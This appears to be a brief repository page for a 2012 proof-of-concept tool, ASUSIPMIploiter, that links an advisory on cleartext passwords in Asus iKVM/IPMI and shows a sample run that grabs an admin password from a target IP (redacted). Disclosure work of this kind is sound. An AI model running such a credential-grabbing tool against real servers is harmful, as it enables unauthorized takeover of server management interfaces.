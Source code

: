 
Proof-of-concept of:
http://pedromadias.wordpress.com/2012/06/25/all-your-asus-servers-ikvmipmi-may-belong-to-other/
http://packetstormsecurity.org/files/114171/Asus-iKVM-IPMI-Backdoor-Cleartext-Passwords.html


bookie:dist pedrodias$ java -jar ASUSIPMIploiter.jar XXX.XXX.XXX.XXX
ASUSIPMIploiter v0.1
Pedro Dias - petermdias@gmail.com
Passwords:
----
admin:XXXXXXX
----
Passwords grabbed.

